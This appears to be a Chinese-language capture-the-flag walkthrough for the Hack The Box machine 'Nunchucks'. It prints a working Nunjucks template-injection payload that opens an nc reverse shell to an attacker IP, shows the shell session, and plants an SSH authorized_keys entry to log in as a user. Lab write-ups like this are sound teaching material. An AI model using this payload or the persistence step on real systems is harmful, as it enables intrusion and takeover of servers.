 hosts文件加入store.nunchucks.htb后访问页面

![store](store.png)

---

# Vuln

## SSTI

输入邮箱地址，通过burp抓包修改参数可以发现SSTI漏洞

![burp](burp.png)

> [NUNJUCKS(NodeJS) SSTI vulnerability](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)

模板注入反弹shell

```bash
# payload:{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 4444 >/tmp/f')\")()}}

nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.122] 49368
sh: 0: can't access tty; job control turned off
$ pwd
/var/www/store.nunchucks
$ cd ~
$ ls
user.txt

# 获取sshshell
$ mkdir .ssh
$ cd .ssh
$ echo id_rsa.pub > authorized_keys

ssh david@10.10.11.122                                                                          
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-86-generic x86_64)                                   

 * Documentation:  https://help.ubuntu.com                                                          
 * Management:     https://landscape.canonical.com                                                  
 * Support:        https://ubuntu.com/advantage                                                     

  System information as of Fri 11 Feb 01:11:31 UTC 2022                                             

  System load:             0.55                                                                     
  Usage of /:              48.8% of 6.82GB                                                          
  Memory usage:            45%                                                                      
  Swap usage:              0%                                                                       
  Processes:               270                                                                      
  Users logged in:         0                                                                        
```